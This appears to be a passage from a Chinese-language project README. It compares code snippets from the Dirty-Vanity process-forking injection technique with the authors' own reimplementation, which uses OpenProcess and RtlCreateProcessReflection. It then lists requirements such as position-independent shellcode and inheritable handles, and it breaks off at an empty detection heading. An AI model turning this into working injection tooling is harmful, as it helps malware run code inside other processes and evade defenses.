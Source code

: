 ## 对比原版实现

### 原版 (Dirty-Vanity)
```cpp
// DirtyVanity.cpp
HANDLE victimHandle = OpenProcess(
    PROCESS_VM_OPERATION | PROCESS_VM_WRITE | PROCESS_CREATE_THREAD | PROCESS_DUP_HANDLE,
    TRUE,  // ✅ Inheritable
    victimPid
);

NTSTATUS reflectRet = RtlCreateProcessReflection(
    victimHandle,
    RTL_CLONE_PROCESS_FLAGS_INHERIT_HANDLES | RTL_CLONE_PROCESS_FLAGS_NO_SYNCHRONIZE,
    baseAddress,
    nullptr,
    NULL,
    &info
);
```

### 我们的实现
```c
// process_forking.c
HANDLE hProcess = OpenProcess(
    PROCESS_VM_OPERATION | PROCESS_VM_WRITE | PROCESS_CREATE_THREAD | PROCESS_DUP_HANDLE,
    TRUE,  // ✅ 修复：改为TRUE
    targetPid
);

NTSTATUS status = RtlCreateProcessReflection(
    hProcess,
    RTL_CLONE_PROCESS_FLAGS_INHERIT_HANDLES | RTL_CLONE_PROCESS_FLAGS_NO_SYNCHRONIZE,
    baseAddress,
    NULL,
    NULL,
    &reflectionInfo
);
```

**完全对齐** ✅

## 技术限制

1. **Windows版本**: 需要Windows 10 1809+ (RtlCreateProcessReflection可用)
2. **Shellcode要求**: 必须position-independent（PEB walking）
3. **权限要求**: 需要目标进程的PROCESS_VM_*权限
4. **Handle要求**: 必须inheritable
5. **地址空间**: Fork进程继承target进程的DLL布局

## 安全检测

